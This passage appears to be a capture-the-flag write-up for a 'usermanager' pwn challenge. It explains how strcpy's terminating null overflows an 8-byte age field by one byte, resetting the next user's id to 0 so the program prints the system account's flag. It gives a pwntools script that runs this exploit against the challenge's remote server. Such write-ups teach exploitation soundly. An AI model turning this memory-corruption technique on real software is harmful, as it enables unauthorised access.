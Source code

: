     The **strcpy**() function copies the string pointed by source (**including the null character**) to the character array destination.

And since functions only checks for `len > maxage` if we insert `8 * a` (8 is the size of buffer holding age) check will still pass. This will cause `strcpy` to copy 9 bytes to destination buffer overwriting one byte of data. If we take a look at user struct we will see that it will overwrite `id` of next user since they are stored in array.

Looking at how `viewUser()` and `displayUserInfo()` work. We see that `viewUser()` sets `current_user` to id of first user with the given name, while `displayUserInfo()` uses that `current_user` as index to user array. This means that if we create a user, overwrite his `id` to 0, then select him program will actually print information of systemAccount giving us flag. So let’s write short script implementing this (although in this case, it is easy to do manually as well):

~~~python
from pwn import *

context.arch = 'i386'
#r = process('./usermanager')
r = remote('pwnable.hackable.ca', 9995)

#create 2 users a1 and a2
for i in range(1, 3):
	r.recvuntil('> ')
	r.sendline('2')
	r.recvuntil('set usernme> ')
	r.sendline('a'+str(i))
	r.recvuntil('set email> ')
	r.sendline('a')
	r.recvuntil('set age> ')
	r.sendline('a')
	r.recvuntil('set password> ')
	r.sendline('a')
	r.sendline('5')
#change age of user a1
r.recvuntil('> ')
r.sendline('1')
r.recvuntil('name of user> ')
r.sendline('a1')
r.recvuntil('> ')
r.sendline('3')
r.recvuntil('set age> ')
r.sendline('a'*8)
#get our flag
r.recvuntil('> ')
r.sendline('5')
r.recvuntil('> ')
r.sendline('1')
r.recvuntil('name of user> ')
r.sendline('a2')
print r.recvuntil('> ')
r.close()
~~~

And we get the flag :D

![flag]({static}/images/2018_8_3_UserManager.png){: .img-fluid .centerimage}
